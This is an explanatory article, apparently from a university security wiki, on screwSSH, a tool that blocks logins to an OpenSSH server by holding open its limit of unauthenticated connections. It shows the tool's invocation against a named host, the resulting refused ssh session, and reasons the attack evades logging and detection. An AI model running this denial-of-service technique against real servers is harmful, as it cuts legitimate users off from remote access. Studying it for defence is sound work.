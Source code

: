 # screwSSH by Boris Kochergin

## The Problem
Processes and threads, even when idle, use memory and incur scheduling overhead. While the advent of fast computers with lots of memory and [copy-on-write virtual-memory subsystems](http://en.wikipedia.org/wiki/Copy-on-write) have helped the problem, it is still possible to cause a system to become unresponsive using some variant of a [fork bomb](http://en.wikipedia.org/wiki/Fork_bomb).

## Relevance to SSH Servers
The rest of the article will reference [OpenSSH](http://www.openssh.com/) specifically, as it is very popular and is open-source.

OpenSSH, like a lot of TCP-enabled server software, spawns a new process using the [fork()](http://en.wikipedia.org/wiki/Fork_%28operating_system%29) system call every time a client connects to it. It is important to note that this expenditure of resources occurs when a client merely ''connects'', and has not yet even authenticated. This allows one or more clients to make a bunch of TCP connections to a network-accessible SSH server's TCP port and exhaust the hardware resources of the computer it is running on, or--if the computer has sufficient memory and CPU time to handle it--all of its available TCP sockets.

## The Solution
To prevent the above attack, OpenSSH has a ''MaxStartups'' configuration option, which places an upper bound on how many unauthenticated clients may be connected at once. Unfortunately, its default value is quite conservative: 10. 

## Attacking the Solution
The above solution opens the SSH server to another attack that simply involves exhausting the number of TCP connections unauthenticated clients may use up. The [screwSSH](https://github.com/isislab/screwSSH/) program is an implementation of this attack in C and C++ that is known to compile on BSD and GNU/Linux. It spawns one thread per TCP connection. TCP connections that are disconnected are immediately reconnected. Its usage is as follows:

<pre>
# ./screwSSH howtohack.poly.edu 22 10
[2011-01-25 13:41:09] Socket 1 connected.
[2011-01-25 13:41:09] Socket 2 connected.
[2011-01-25 13:41:09] Socket 3 connected.
[2011-01-25 13:41:09] Socket 4 connected.
[2011-01-25 13:41:09] Socket 5 connected.
[2011-01-25 13:41:09] Socket 6 connected.
[2011-01-25 13:41:09] Socket 7 connected.
[2011-01-25 13:41:09] Socket 8 connected.
[2011-01-25 13:41:09] Socket 9 connected.
[2011-01-25 13:41:09] Socket 10 connected.
</pre>

At this point, the remote OpenSSH server, in a default configuration, has reached its limit for unauthenticated clients, and will not accept any new ones:

<pre>
# ssh -v howtohack.poly.edu
OpenSSH_5.6p1 FreeBSD-20101111, OpenSSL 0.9.8q 2 Dec 2010
debug1: Reading configuration data /etc/ssh/ssh_config
debug1: Connecting to howtohack.poly.edu [128.238.66.101] port 22.
debug1: Connection established.
debug1: permanently_set_uid: 0/0
debug1: identity file /root/.ssh/id_rsa type -1
debug1: identity file /root/.ssh/id_rsa-cert type -1
debug1: identity file /root/.ssh/id_dsa type -1
debug1: identity file /root/.ssh/id_dsa-cert type -1
ssh_exchange_identification: Connection closed by remote host
</pre>

In addition to the difficult nature of denial-of-service attacks in general, this one is particularly difficult to deal with for the following reasons:

* By default, OpenSSH does not write a log entry when the ''MaxStartups'' limit has been reached.
* Restarting the SSH server has no effect, as disconnected TCP connections are immediately reconnected.
* It results in just four packets--SYN, SYN/ACK, ACK, and RST (when it is disconnected)--being generated per connection per the configured ''LoginGraceTime'' interval--which defaults to 120 seconds--and is therefore not casually observable on the wire for a small number of connections like 10.
